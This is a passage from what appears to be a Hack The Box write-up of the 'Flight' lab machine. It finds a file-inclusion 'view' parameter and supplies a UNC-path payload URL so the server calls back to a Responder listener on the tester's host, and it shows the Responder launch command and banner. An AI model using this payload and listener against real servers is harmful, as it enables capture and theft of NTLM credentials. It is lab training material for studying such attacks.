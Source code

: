 Lets add that to `/etc/hosts` as well. 

Navigating to the vhst we find a page for flight school:

![flight_internal.png](../assets/flight_assets/flight_internal.png)

Clicking around the site we see different pages are redirected:

```
http://school.flight.htb/index.php?view=about.html
```

Lets try setting up a Responder listener and seeing if the page will call back:

```
http://school.flight.htb/index.php?view=//10.10.14.60/testing/
```

```
┌──(ryan㉿kali)-[~/HTB/Flight]
└─$ sudo responder -I tun0
[sudo] password for ryan: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

```
